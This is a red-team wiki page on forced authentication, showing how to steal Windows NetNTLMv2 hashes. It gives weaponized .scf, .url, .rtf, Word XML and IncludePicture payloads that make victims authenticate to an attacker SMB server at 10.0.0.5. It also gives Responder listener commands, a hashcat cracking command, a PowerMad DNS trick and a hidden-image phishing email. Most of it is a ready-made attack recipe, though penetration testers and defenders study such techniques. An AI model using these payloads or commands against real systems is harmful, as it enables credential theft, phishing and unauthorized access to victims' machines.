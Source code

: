 ```yaml
---
description: 'Credential Access, Stealing hashes'
---
```


# Forced Authentication

## Execution via Hyperlink

Let's create a Word document that has a hyperlink to our attacking server where  `responder` will be listening on port 445:

![](../../.gitbook/assets/forced-auth-word.png)

{% file src="../../.gitbook/assets/totes-not-a-scam.docx" caption="Forced SMBv2 Authentication - MS Word File" %}

Let's start `Responder` on our kali box:

{% code title="attacker@local" %}
```csharp
responder -I eth1
```
{% endcode %}

Once the link in the document is clicked, the target system sends an authentication request to the attacking host. Since responder is listening on the other end, victim's `NetNTLMv2` hash is captured:

![](../../.gitbook/assets/forced-auth-hashes.png)

The retrieved hash can then be cracked offline with hashcat:

```csharp
hashcat -m5600 /usr/share/responder/logs/SMBv2-NTLMv2-SSP-10.0.0.2.txt /usr/share/wordlists/rockyou.txt --force
```

Success, the password is cracked:

![](../../.gitbook/assets/forced-auth-cracked.png)

Using the cracked passsword to get a shell on the victim system:

![](../../.gitbook/assets/forced-auth-shell%20%281%29.png)

## Execution via .SCF

Place the below `fa.scf` file on the attacker controlled machine at `10.0.0.7` in a shared folder `tools`

{% code title="\\\\10.0.0.7\\tools\\fa.scf" %}
```csharp
[Shell]
Command=2
IconFile=\\10.0.0.5\tools\nc.ico
[Taskbar]
Command=ToggleDesktop
```
{% endcode %}

{% file src="../../.gitbook/assets/fa.scf" caption="fa.scf" %}

A victim user `low` opens the share `\\10.0.0.7\tools` and the `fa.scf` gets executed automatically, which in turn forces the victim system to attempt to authenticate to the attacking system at 10.0.0.5 where responder is listening:

![victim opens \\10.0.0.7\tools, fa.scf executes and gives away low&apos;s hashes](../../.gitbook/assets/forced-auth-shares.png)

![user&apos;s low hashes were received by the attacker](../../.gitbook/assets/forced-auth-scf.png)

What's interesting with the `.scf` attack is that the file could easily be downloaded through the browser and as soon as the user navigates to the `Downloads` folder, users's hash is stolen:

![](../../.gitbook/assets/forced-auth-downloads.png)

## Execution via .URL

Create a weaponized .url file and upload it to the victim system:

{% code title="c:\\link.url@victim" %}
```csharp
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\10.0.0.5\%USERNAME%.icon
IconIndex=1
```
{% endcode %}

Create a listener on the attacking system:

{% code title="attacker@local" %}
```text
responder -I eth1 -v
```
{% endcode %}

Once the victim navigates to the C:\ where `link.url` file is placed, the OS tries to authenticate to the attacker's malicious SMB listener on `10.0.0.5` where NetNTLMv2 hash is captured:

![](../../.gitbook/assets/forced-authentication-url.gif)

## Execution via .RTF

Weaponizing .rtf file, which will attempt to load an image from the attacking system:

{% code title="file.rtf" %}
```csharp
{\rtf1{\field{\*\fldinst {INCLUDEPICTURE "file://10.0.0.5/test.jpg" \\* MERGEFORMAT\\d}}{\fldrslt}}}
```
{% endcode %}

Starting authentication listener on the attacking system:

{% code title="attacker@local" %}
```text
responder -I eth1 -v
```
{% endcode %}

Executing the file.rtf on the victim system gives away user's hashes:

![](../../.gitbook/assets/rtf-hashes.gif)

## Execution via .XML

MS Word Documents can be saved as .xml:

![](../../.gitbook/assets/screenshot-from-2018-12-09-16-23-39.png)

This can be exploited by including a tag that requests the document stylesheet \(line 3\) from an attacker controlled server. The victim system will share its NetNTLM hashes with the attacker when attempting to authenticate to the attacker's system:

```markup
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<?mso-application progid="Word.Document"?>
<?xml-stylesheet type="text/xsl" href="\\10.0.0.5\bad.xsl" ?>
```

Below is the attack illustrated:

![](../../.gitbook/assets/peek-2018-12-09-16-44.gif)

{% file src="../../.gitbook/assets/test-xls-stylesheet.xml" caption="test-xls-stylesheet.xml" %}

## Execution via Field IncludePicture

Create a new Word document and insert a new field `IncludePicture`:

![](../../.gitbook/assets/screenshot-from-2018-12-09-17-01-11.png)

Save the file as .xml. Note that the sneaky image url is present in the XML:

![](../../.gitbook/assets/screenshot-from-2018-12-09-17-02-32.png)

Launching the document gives away victim's hashes immediately:

![](../../.gitbook/assets/peek-2018-12-09-17-04.gif)

{% file src="../../.gitbook/assets/smb-image.xml" caption="smb-image.xml" %}

## Execution via HTTP Image and Internal DNS

If we have a foothold in a network, we can do the following:

* Create a new DNS A record \(any authenticated user can do it\) inside the domain, say `offense.local`, you have a foothold in, and point it to your external server, say `1.1.1.1`
  * Use [PowerMad](https://github.com/Kevin-Robertson/Powermad) to do this with: `Invoke-DNSUpdate -dnsname vpn -dnsdata 1.1.1.1`
* On your controlled server 1.1.1.1, start `Responder` and listen for HTTP connections on port 80
* Create a phishing email, that contains `<img src="http://vpn.offense.local"/>` 
  * Feel free to make the image 1x1 px or hidden
  * Note that `http://vpn.offense.local` resolves to `1.1.1.1` \(where your Responder is listening on port 80\), but only from inside the `offense.local` domain
* Send the phish to target users from the `offense.local` domain
* Phish recipients view the email, which automatically attemps to load the image from `http://vpn.offense.local`, which resolves to `http://1.1.1.1` \(where Responder is litening on port 80\)
* Responder catches NetNLTMv2 hashes for the targeted users with no user interaction required
* Start cracking the hashes
* Hopefully profit

## References

{% embed url="http://www.defensecode.com/whitepapers/Stealing-Windows-Credentials-Using-Google-Chrome.pdf" %}

{% embed url="https://www.bleepingcomputer.com/news/security/you-can-steal-windows-login-credentials-via-google-chrome-and-scf-files/" %}

{% embed url="https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/" %}

{% embed url="https://medium.com/@markmotig/a-better-way-to-capture-hashes-with-no-user-interaction-by-markmo-bd1569bfa208" %}

{% embed url="https://bohops.com/2018/08/04/capturing-netntlm-hashes-with-office-dot-xml-documents/" %}

{% embed url="https://twitter.com/bohops/status/1062935197107322880?s=12" %}

{% embed url="https://www.securify.nl/blog/SFY20180501/living-off-the-land\_-stealing-netntlm-hashes.html" %}


